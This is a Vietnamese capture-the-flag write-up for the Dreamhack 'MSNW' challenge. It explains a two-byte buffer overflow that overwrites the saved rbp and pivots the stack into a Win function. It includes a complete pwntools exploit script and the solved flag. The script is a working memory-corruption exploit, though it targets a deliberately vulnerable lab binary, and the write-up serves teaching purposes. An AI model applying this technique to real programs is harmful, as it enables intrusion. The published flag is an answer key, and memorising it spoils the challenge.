






# [MSNW](https://dreamhack.io/wargame/challenges/715/)


## Overview

Bài cho ta các file để phân tích và Dockerfile:


Đầu tiên ta phân tích chương trình msnw trong ida:

### IDA



Hàm init và hàm puts không có gì đặc biệt cả, ta vào hàm Echo() phân tích:



Vậy tổng quan chương trình sẽ chạy một vòng lặp vô tận, khi đó hàm `Meong()` để ta nhập vào và sau đó thực thi hàm `Nyang()` để in ra chuỗi ta vừa nhập. Vòng lặp kết thúc khi chuỗi đầu vào bắt đầu bằng `q`

Ta để ý mảng `s` khởi tạo 304 byte trong khi hàm read đọc tận 306 byte => lỗi buffer overflow ở đây. Và ta sẽ khai thác từ nó

Nhìn bên cửa số function ta thấy có hàm Win và mục tiêu của chúng ta làm sao để chương trình nhảy được vào hàm này:



### GDB

Như ở trên thì ta nhập đầu vào rồi chương trình sẽ thực thi hàm `Nyang()` để in ra output. Vì đầu ra là định dạng string nên mình nghĩ ngay đến leak dữ liệu. Bây giờ mình sẽ nhập thử dữ liệu vào xem tràn đến đâu:




Khi mình nhập full 306 byte thì tràn 2 byte sang bên rbp => Ta có thể ovewrite địa chỉ của rbp để chuyển hướng luồng thực thi.Vì ta không overwrite được cả thanh ghi rbp nên ta cần 2 lần return để đến được hàm `Win`. Mà mỗi lần leave thì chương trình thực hiện `mov rsp,rbp ; pop rbp` mà mỗi lần `pop` thì địa chỉ `rsp` sẽ cộng thêm 8 byte . Rõ hơn: 

```
mov rsp, rbp
pop rbp
ret     # mov rip, rbp + 8
```

Vì vậy mình mình nghĩ đến việc rbp bằng 1 địa chỉ nào đó gần đấy, cấu trúc sẽ thế này :



Mình sẽ ghi đè kí tự `a` đến tận `rbp - 16` , rồi ghi địa chỉ hàm `Win` tại `rbp - 8` và rồi thay đổi 2 byte cuối của `rbp` thanh địa chỉ tại `rbp -16` để khi `ret` chương trình sẽ nhảy đúng vào hàm `Win`

Cho nên ở lần nhập đầu tiên mình sẽ nhập tràn 304 byte để có thể leak được địa chỉ rbp để tính toán cho các địa chỉ lân cận

Mình đã code [./solve.py](./chall/deploy/solve.py) để solve:

```python
#!/usr/bin/python3

from pwn import *

exe = ELF('./msnw')
p = process(exe.path)
#p = gdb.debug(  exe.path, gdbscript='b *0x401292')
#p = remote('localhost', 31337)  

payload = b'a' * 304
p.sendafter(b': ',payload)
p.recvuntil(b'a' * 304)
leak_rbp = u64(p.recv(6) + b'\0\0')
log.info('leak_rbp: ' + hex(leak_rbp))
now_rbp = leak_rbp - 0x200
offset_insert = now_rbp -16
log.info('offset_insert: ' + hex(offset_insert))
b0 = offset_insert & 0xff           
b1 = (offset_insert >> 8) & 0xff     

var1 = bytes([b0])   
var2 = bytes([b1])   

payload = b'a' * 296 + p64(0x000000000040135b) + var1 +var2
buf = leak_rbp - 0x1c0 - 0x130
log.info('buf: ' + hex(buf))
p.sendafter(b': ',payload)
p.interactive()


```
Thử thành công mình cho code chạy trên sever và ra được flag

Flag: `DH{858850f130ca946b440b44fbc63b1fd63d85ad79fe8881b72bfe90bf37e11982}`

